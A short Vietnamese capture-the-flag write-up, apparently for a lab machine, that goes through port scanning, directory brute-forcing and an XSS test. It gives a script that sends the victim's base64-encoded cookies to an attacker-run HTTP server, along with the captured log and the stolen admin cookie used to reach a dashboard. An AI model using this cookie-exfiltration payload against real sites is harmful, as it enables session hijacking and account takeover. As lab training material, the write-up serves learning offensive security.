








IP: 10.10.11.8
- Scan nmap: nmap -sV -T4 10.10.11.8

- Có 2 cổng mở cổng 22 cho ssh và cổng 5000 cho upnp?
- ở đây ta không biết username ssh là gì nên thử truy cập vào http://10.10.11.8:5000/

- Nhấp for questions 

- Ra 1 form nhập thông tin liên hệ, nhìn đề bài cho thông tin về lỗ hổng xss.

- chèn thử 1 đoạn script và form 
 
 
 - Tự động bật ra hộp thoại 1
 
- Dùng gobuster bruteforce thử xem còn trang nào khác không: 
```gobuster dir -u http://10.10.11.8:5000/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt```

- /dashboard truy cập được 

- Không có quyền truy cập.
- Khai thác lỗ hổng xss để  lấy cookie. 
- Đầu tiên ta tạo 1 server ở phía máy tấn công. 
```
python3 -m http.server 5000
```

```
<script>var i=new Image(); i.src="http://10.10.14.4:8001/?cookie="+btoa(document.cookie);</script>
```
- Máy tấn công sẽ có cookie, btoa là mã hóa base64 trên đường truyền.
```
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.14.4 - - [21/Aug/2024 16:30:27] "GET /?cookie= HTTP/1.1" 200 -
10.10.11.8 - - [21/Aug/2024 16:30:41] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
10.10.11.8 - - [21/Aug/2024 16:30:43] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -

```
decode ra 

- is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0

- sửa cookie

- truy cập thành công